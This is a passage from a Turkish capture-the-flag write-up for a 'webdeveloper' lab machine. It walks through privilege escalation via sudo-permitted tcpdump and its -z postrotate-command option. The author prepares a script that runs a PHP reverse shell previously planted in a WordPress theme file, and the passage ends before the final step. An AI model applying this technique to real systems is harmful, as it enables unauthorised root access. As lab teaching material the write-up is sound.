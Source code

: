 ```sh
 * Ubuntu's Kubernetes 1.14 distributions can bypass Docker and use containerd
   directly, see https://bit.ly/ubuntu-containerd or try it now with

     snap install microk8s --classic

214 packages can be updated.
105 updates are security updates.


Last login: Tue Oct 30 09:25:27 2018 from 192.168.1.114
webdeveloper@webdeveloper:~$ 

```
Evet `webdeveloper` kullanıcısı ile içerdeyiz.

```sh
webdeveloper@webdeveloper:~$ find / -perm u=s 2> /dev/null 
```
İlk olarak suid id'si etkin olan dosyaları bulmak istedim belki bir şekilde root olabilir diye ancak bir sonuç çıkmadı. Bunun üzerine sudo -l komutunu denedim.
ve tcpdum uygulamasını gördüm. Bu şekilde webdeveloper kullanıcısı sudo komutu aracılığı ile tcpdump uygulmasını root olarak çalıştırabilmektedir.


```sh
webdeveloper@webdeveloper:~$ sudo -l
[sudo] password for webdeveloper: 
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump

```
Doğruyu söylemek gerekirse tcpdump ile ilk olarak ne yapacağımı bilemedim. Bundan dolayı -h komutunu uyguladım.
```sh
webdeveloper@webdeveloper:/usr/sbin$ sudo tcpdump -h
tcpdump version 4.9.2
libpcap version 1.8.1
OpenSSL 1.1.0g  2 Nov 2017
Usage: tcpdump [-aAbdDefhHIJKlLnNOpqStuUvxX#] [ -B size ] [ -c count ]
		[ -C file_size ] [ -E algo:secret ] [ -F file ] [ -G seconds ]
		[ -i interface ] [ -j tstamptype ] [ -M secret ] [ --number ]
		[ -Q in|out|inout ]
		[ -r file ] [ -s snaplen ] [ --time-stamp-precision precision ]
		[ --immediate-mode ] [ -T type ] [ --version ] [ -V file ]
		[ -w file ] [ -W filecount ] [ -y datalinktype ] [ -z postrotate-command ]
		[ -Z user ] [ expression ]
webdeveloper@webdeveloper:/usr/sbin$ 
```
`-z postrotate-command` bu parametreyi internette araştırdık sonra sh komutu çalıştırabileceğimi anladım. Aklıma ilk olarak sisteme sızarken kullandığım reverse shell php kodu geldi. Bunu bir dosyaya sh kodu olarak kaydederek devam edelim.
```sh
webdeveloper@webdeveloper:/usr/sbin$ echo $'php /var/www/html/wp-content/themes/twentysixteen/404.php' > /home/webdeveloper/sonuc
```
```sh
webdeveloper@webdeveloper:/usr/sbin$ more /home/webdeveloper/sonuc 
php /var/www/html/wp-content/themes/twentysixteen/404.php
```
Evet şimdi bu dosyayı çalıştırılmaya uygun bir hale getirelim.
